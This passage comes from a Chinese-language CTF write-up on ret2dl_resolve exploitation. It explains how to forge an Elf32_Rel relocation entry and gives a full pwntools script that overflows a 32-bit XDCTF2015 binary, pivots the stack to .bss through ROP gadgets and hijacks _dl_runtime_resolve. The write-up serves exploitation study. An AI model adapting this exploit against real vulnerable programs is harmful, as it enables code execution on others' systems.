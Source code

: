 > 注：fake_write_Elf32_Rel_addr是伪造的write函数的Elf32_Rel结构体地址，稍后会说到。
>

要在栈上伪造一个fake_write_Elf32_Rel结构体得伪造两项内容：r_offset和r_info；其中r_offset就是write的.got.plt地址，r_info可以在IDA中看得到，直接复制下来就行了：

```c
fake_reloc_r_offset=elf.got['write']  
fake_reloc_r_info=0x607
fake_write_Elf32_Rel=p32(fake_reloc_r_offset)+p32(fake_reloc_r_info) #伪造write的Elf32_Rel结构体
```

> 成员r_offset和r_info分别占4字节也就是p32，详情参考文章前半部分内容
>

所以完整的payload如下：

```c
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649


new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

#reloc_arg=0x20
#jmp_to_dl_runtime_resolve_addr=0x08048370
#string="/bin/sh\x00"

#payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(reloc_arg)+p32(0xdeadbeef) #第二个deadbeef是虚假的返回地址
#payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
#payload2+='a'*52+string+'a'*12

jmp_to_dl_runtime_resolve_addr=0x08048370
string="/bin/sh\x00"

fake_write_Elf32_Rel_addr=new_stack_esp+4*7 #一个p32占四字节，执行leave中的pop ebp后开始计算
                                  #fake_write_addr指fake_write_Elf32_Rel的地址
rel_plt_start_addr=0x8048324
fake_reloc_arg=fake_write_Elf32_Rel_addr-rel_plt_start_addr

fake_reloc_r_offset=elf.got['write']  
fake_reloc_r_info=0x607
fake_write_Elf32_Rel=p32(fake_reloc_r_offset)+p32(fake_reloc_r_info) #伪造write的Elf32_Rel结构体

payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(fake_reloc_arg)+p32(0xdeadbeef)
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
payload2+=fake_write_Elf32_Rel #new
payload2+='a'*44+string+'a'*12 #注意把这里的偏移改一下，因为加了一个fake_write_Elf32_Rel
```